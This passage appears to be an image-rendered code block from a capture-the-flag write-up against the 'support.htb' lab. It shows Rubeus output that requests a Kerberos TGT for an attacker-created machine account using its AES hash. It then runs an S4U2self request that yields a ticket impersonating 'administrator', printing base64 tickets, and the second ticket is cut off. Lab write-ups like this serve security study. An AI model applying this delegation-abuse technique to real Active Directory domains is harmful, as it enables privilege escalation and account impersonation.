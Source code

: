 ```
[*] Using aes256_cts_hmac_sha1 hash: E6DDFF1AA0C2F678155BDB250EDBDC3440840065F8D5A5DA0D12B0B6F08D7151
[*] Building AS-REQ (w/ preauth) for: 'support.htb\GR4Y$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFZjCCBWKgAwIBBaEDAgEWooIEcTCCBG1hggRpMIIEZaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBCswggQnoAMCARKhAwIBAqKCBBkEggQVsW/fjjoQ
      bIpSxyxGehzQA3eQCAmbxQLfiSh7wLcytJtgPsIDDdeg4IGGsTTEEQNuR0xgGustrjAiM0xqNKY6ak2c
      3pVYl1YCjljE/OiKrxM/U9z8ooOe8IkK2uIcSHrtfvX0M8ywCucjjox5DCb/1HCv/972ZY8uvTMo4cR3
      oq7jsQXadrDhJn4OzyIvGjwVvs98KpPPknLLSX1KsATJIpB28rsWLb00nQVy6HAYbQbA33h3Gp9wzkkz
      BOuGbbjxJKQFzBpko8BQMLj/hFB28PMstUfftCF4gF0JtPwWrMlrqSmC8T+k7Z8m3rqMgl9DTWz10fTF
      vmHpN7bOUHe8n7HybPLcD4Md88X+htyWkde0PLXD1vNX9Joiv7Dd8e0+/9hapEA2psnzKq7b+KyJevX7
      XS6Zrqgr4/Hl2vfCasX+zCigRgfNc7r76QPAHUDQ+CJ0hQZayxoHdYk210+l2EhFi66silT+Wq2ptKUb
      OhiNam3o9Ra1XknCQxbxO0af3f8UGfl18n4CYlsyEqy4CWyC9125riYn8gIieSzJNXpRf3AqL/WLufL0
      +eWqEYO80CUAEWN+Vu9hFQYgJdyXmBczAoKYYBaaMexrG9kC5xzIVfzO/EcRU3WrED8Csfl5E5yJqGdF
      TRSzKf1mvU5DiIQcSyDgnwWqkxrApK6D0ft+3oMtOcxTTRKNyPN5927huoT7SvkBC6uJhB+IvjQjMFj/
      9KwdhJaZnpba8Tlp3tqh//ss/K8mkuQ7E9Z/3BaUbRp/1XwBQvuL7QuAYU9ceEBKUtwnp2qIcVoRJlpF
      ID/Tm1RQmK8Q3Ta2sl1GlkxyMFXjUmNFk77XXwVZNojr36vx1KseVsFCI/p2zPDOtnSiFbIyHE6Rl9uH
      doE9f8lW65L26Kra/EDSB8FP+lvB9iKIFeZx4U8onTAwDeXcypNQFTAZqQ0qiYnI480PjawmVoUQ/bKk
      fGovUYHn8BaUFjuREEW0lGtCIyV5K17Tw0Zu9R19sLms/1xpgzqxPj2p7FI4TnS5mr53ZbNLlO8LzPZF
      ZV0OntmY3m5AOgxrqDmnheUbrZ8Tk98LJbb8NFfotsm8YX72jUVt+/te5QKvx/97T60KZzIVXoKb26j4
      jbfvK5HecIfE4ikOwVZeBGavW3smylwMQOkKMqSBGHnzsSSWBvldwGiDlE3NAgtx85fJVBqlkgFdiRfX
      x3FdBHWsX6dBE+3XUsw0DaReZwnE/LykO1AKgzlqRfOeVo9VB0/kIeNvrljhJvfd3HDnPLiNRa/RIcc0
      PF++7Zo32hdqU74f5UF5lvlJBxULBo1ZKNP3tSCkQg0Q1OyLsg4RW2ynqRnyvax7JvdKDJu/X8rWwkpR
      EEFj5T389rLoSI+FfSNywowtbqOB4DCB3aADAgEAooHVBIHSfYHPMIHMoIHJMIHGMIHDoCswKaADAgES
      oSIEIEP8CWqH3htbRoGqbnPk+8qrCs5geran8Bj7+Bp2CraooQ0bC1NVUFBPUlQuSFRCohIwEKADAgEB
      oQkwBxsFR1I0WSSjBwMFAEDhAAClERgPMjAyMzExMTYxNzQ1MTVaphEYDzIwMjMxMTE3MDM0NTE1WqcR
      GA8yMDIzMTEyMzE3NDUxNVqoDRsLU1VQUE9SVC5IVEKpIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC3N1cHBv
      cnQuaHRi


[*] Action: S4U

[*] Building S4U2self request for: 'GR4Y$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'GR4Y$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      doIFnjCCBZqgAwIBBaEDAgEWooIEvzCCBLthggS3MIIEs6ADAgEFoQ0bC1NVUFBPUlQuSFRCohIwEKAD
      AgEBoQkwBxsFR1I0WSSjggSHMIIEg6ADAgEXoQMCAQGiggR1BIIEcUBM4dWXb52QgQP3RerBOqhYYmd9
      NdthD493M/yMX5s960ulxY6spYYd3xE9sD6vKDooOdymw24mHUzj2AJbKw1Bltb+8glCtHv5qSOUBOgV
      UVGXLQtVcW6ZRkK2ZTWhnVRZg7/f1oC6sIfBuRm716GHuNTVoudl8/x7uoUVNl+YG2vscx+luHzAIpVo
      r4vcptspZEvkP9GpGnUx1mGMvO/305Lv5ZaXQ6HGxLB5MokuR+Sx0GT3G/D5CEQUOe+eDl5t2AtN4jiP
      8fIjTOAMIUqLifQQ6sbqoeRprTR4e3oJm2pmguX8oIoBvzSsHbEzasi7CrHDaEr4eDm+xmR9KRPmsY1d
      htW2zDFEcXXPmXmESkj1LpDGheHSi6XwX48ajELwYE1OU43Tc/H1aKX9B7eLSEOOULLSjw05FMYlMTUp
      WjG5niU285iRBvR11ASCSlkC7mkSRqY17EXayhim3AejSr3xxey/ZMax0dkiE7ag9YI/YKprMzPb31eO
      0nzKJcixOCzITe/3yL4sW4ZBa2Ut64/opFYCwyDYsXeCXYd0a12Bg2kh+GMx1dXRIBCaPIYqiPMCBGb1
      Gdbg/p6/Ay3Akh1S8h7aWsfcyskvPEMernh8TIV5ZwmEdPwmmKSQVkKTBo3/zr9CSD77OFlyTMJDu81q
      JqJSok0bEwjzLoUfTFSoRGKc9x1sENNxpQJl0LYuH66CCRJhIG/o0TO2mLmxYkOAqh0BBxuqxE1ChiLu
      4uMmGEpMDi+q05420P0q0rv0M4oh/2twEe8zCn6g0BxoSCtn14abNmH3kRvjAvr5SQfh4BspAVMHEP7d
      xx3BnNZ3QoPawVZnQxyLK3ctUinLS0tuJQCXAFclPPvaiYmyKITzTJkrGiXajoehM2K5X2BAMTmV37+4
      nrHW/nyf9tyG0lsdVRcfUZmkX9ZMFi2kx+reF1rLLwTHhpXV78nxouuzwYZRMQ9hDR9p8vVOasK/phKj
      ZwImnVujdHHRUvqB/RV919YaUjous2JitqsnBRrFqMLpkq5fXqQwjBopZ8kTfJz3/QjEYNd9IZQDmbPT
      aqv8Lu1xEPJtLNPyKOhu+L27gtJdNGOj3LvuUuPgYHVh109ia8T3iYfLPB3hGCFEOr/vitxHr2i631ik
      wq/HGw+AaRHGh1+lrjuWAMAn44HV8UGpKUmL1iOEJL5mYSa29M+0fMX1RfyoeDjfLbE95sHhlH/en4qW
      ygkwkfwHGeXCFo/3zqKoMePBcjoaUCiel0zKozNsH61RuABzyaZjzQGUMPqVkN6N1t4L3iaKsIzWLi6K
      q2vHi0Nr8eTLlB66MlGqoKlMDE2/4bg530ef2R1iADMn0fue3be1EEJ6mijOo3lpghbNug6Caeaq7H7U
      5ff+ms5czto/MPcSMVnvxqH7eX6OHMRzXiP6YGkeHx5l5yrXOtZMm9EURjGEQjwfHciCSkOPbOuLMywQ
      k4URz3TkpTj5qH3tmG48v7u5PHncoP0bLNS9enEu6RZQSZ/e2qOByjCBx6ADAgEAooG/BIG8fYG5MIG2
```